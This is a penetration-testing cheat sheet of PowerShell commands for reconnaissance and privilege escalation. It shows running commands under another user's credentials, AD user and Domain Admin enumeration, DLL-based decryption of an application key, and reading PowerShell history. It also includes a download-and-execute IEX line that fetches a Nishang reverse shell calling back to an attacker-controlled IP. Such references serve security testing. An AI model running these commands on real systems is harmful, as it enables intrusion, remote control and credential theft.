 # PowerShell

Some useful PowerShell commands that you can use during your recon or privsec phases.


## Execute block as an other user

```powershell
$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("<dom>\<username>", $pass)
Invoke-Command -Computer <computer_name> -Credential $cred -ScriptBlock { cmd.exe "/c <cmd>" }
```


## Download and execute script

The repository [Nishang](https://github.com/samratashok/nishang) contains a good
PowerShell script to create a [reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
You need to add the following line at the end:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <port>
```

On your local machine:

- Create an HTTP server to serve the script: `python -m http.serve`
- Listen for an incoming [connection with nc](reverse-shell.md#listen-with-netcat).

On the remote host, execute the following PowerShell script:

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>:<port>/<script_name.ps1>')
```


## Execute C# DLL from Powershell

```powershell
# Load a dll to Powershell
[Reflection.Assembly]::LoadFile("C:\Path\MyNamespace.Service.dll")
[Reflection.Assembly]::LoadFile("C:\Path\MyNamespace.Cryptography.dll")

# Call a public public static method
[MyNamespace.Service.Config]::ApplicationKey()

# Instantiate a class and class a method
$c = New-Object MyNamespace.Cryptography.MyCryptography
$c.Decrypt("CIPHER_TEXT", [MyNamespace.Service.Config]::ApplicationKey())
```


## Domain commands


### Collect AD users information

Here is snippets of Powershell commands to interact with AD LDAP. You can also
use customize filters to get vulnerable users ([SPN](./windows.md#list-spn-accounts), ...)

```powershell
# Helping functions
function Get-ADUserDirectoryEntry($user) {
    return (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(samAccountName=$user))")).FindOne().GetDirectoryEntry()
}

function Get-ADUserGroups($user) {
    $userDirectoryEntry = Get-ADUserDirectoryEntry($user)
    $groups = $userDirectoryEntry.memberOf

    return $groups
}

function Get-ADGroupMembers($GroupName) {
    if ($GroupName -like "CN=*") {
        $GroupDistinguishedName = $GroupName
    } else {
        # find the distinguished name from the group name
        $GroupDistinguishedName = (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=Group)(cn=$GroupName))")).FindOne().GetDirectoryEntry().distinguishedName
    }

    # limited to the first 10k entries
    $GroupMembers = (New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(memberOf=$GroupDistinguishedName ))")).FindAll()

    return $GroupMembers.properties
}

function Get-ADComputerByOS($operatingSystem) {
    # https://ldapwiki.com/wiki/Active%20Directory%20Computer%20Related%20LDAP%20Query
    return (New-Object System.DirectoryServices.DirectorySearcher("(&(&(&(samAccountType=805306369)(objectCategory=computer)(operatingSystem=$operatingSystem*))))")).FindAll()
}

# Get "Domain admins" users, be carefull the name may change depending on the DC lang
$DomainAdmins = Get-ADGroupMembers("Domain Admins")
foreach($user in $DomainAdmins) { echo "$($user.displayname) ($($user.samaccountname))" }
```


### Get Domain Password Policy

```powershell
$policy = Get-ADDefaultDomainPasswordPolicy -Credential $cred -Server $domain
```


### Get user owner

```powershell
Get-ADUser $USERNAME | ForEach-Object {Get-ACL "AD:\$($_.DistinguishedName)" | Select-Object -ExpandProperty Owner}
```


### List deleted users

```powershell
$deletedObjectsDom = get-addomain | select DeletedObjectsContainer
$objects = Get-ADObject -SearchBase $deletedObjectsDom.DeletedObjectsContainer -ldapfilter "(objectClass=user)" -IncludeDeletedObjects -properties *
foreach ($object in $objects) { $object }
```


## Miscellaneous commands

### List TCP listening connections

The [`Get-NetTCPConnection`](https://docs.microsoft.com/en-us/powershell/module/nettcpip/get-nettcpconnection?view=win10-ps)
cmdlets lists TCP connections. By default the processes pid is return, so the
following command line select the process name instead.

```powershell
Get-NetTCPConnection -State Listen | Select local*, remote*, state, @{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName}} | Format-Table -AutoSize
```


### List Email aliases

```powershell
$ (Get-ADUser -Identity <user_ad_id> -Properties proxyAddresses).proxyAddresses
```


### Get PowerShell command history

```powershell
cd "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadline"
gc ConsoleHost_history.txt
```


### Convert DACL

```powershell
$acl = get-acl HKLM:\System\CurrentControlSet\Services
ConvertFrom-SddlString -Sddl $acl -type RegistryRights | { Foreach-Object { $.DiscretionaryAcl } }
```
